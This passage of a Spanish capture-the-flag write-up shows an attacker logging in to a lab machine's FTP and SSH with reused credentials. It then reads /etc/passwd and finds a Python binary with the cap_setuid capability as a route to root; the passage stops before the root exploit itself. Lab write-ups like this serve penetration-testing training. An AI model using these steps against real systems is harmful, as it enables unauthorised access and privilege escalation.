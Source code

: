 ## Fase de explotación
### Accediendo al servicio FTP
Con las credenciales obtenidas, podemos acceder al servicio FTP, y ver la flag del usuario
```shell
$ ftp 10.129.35.0
Connected to 10.129.35.0.
220 (vsFTPd 3.0.3)

ftp> dir
229 Entering Extended Passive Mode (|||24816|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Jun 25 15:04 user.txt
226 Directory send OK.
```

### Accediendo al servicio SSH
Siempre es recomendable intentar acceder al servicio SSH con las mismas credenciales, ya que muchas veces se reutilizan en distintos servicios, y en este caso no es la excepción:

```shell
$ ssh nathan@10.129.35.0
```

Una vez accedemos, yo siempre recomiendo hacer un tratamiento de la terminal para poder usar `Ctrl+C`, `Ctrl+L`, etc., y también para poder listar siempre con los ficheros ocultos. Para ello ejecutamos el siguiente comando:
```shell
export TERM=xterm; export SHELL=bash; alias ll="ls -lha";
```
## Fase de escalado de privilegios
### Buscando escalado de privilegios
Una vez accedimos, ahora necesitamos poder escalar privilegios. En todas las máquinas yo recomiendo revisar en primera instancia la existencia de otros usuarios con acceso a bash, ya que esto nos da pistas sobre si escalamos directamente a root o debemos revisar otros usuarios. Para ello usamos:
```shell
$ cat /etc/passwd | grep bash

root:x:0:0:root:/root:/bin/bash
nathan:x:1001:1001::/home/nathan:/bin/bash
``` 
Solo vemos a nathan y a root, por lo cual sabemos que el escalado es directo.

Teniendo la contraseña del usuario, podemos revisar los permisos de sudo, para ello usamos el comando `sudo -l`, y vemos que no tiene permisos, por lo cual debemos buscar otra forma de escalar privilegios.

### Buscando capabilities
Una de las formas de escalar privilegios es buscando programas con capabilities. Para ello ejecutamos:
```shell
$ getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
Encontramos bastantes. La que más nos interesa es la de Python, que tiene `cap_setuid`, lo que nos permite modificar nuestro UID por el que queramos, en este caso root. Para una lista completa de capabilities útiles, podemos revisar [GTFOBins](https://gtfobins.github.io).
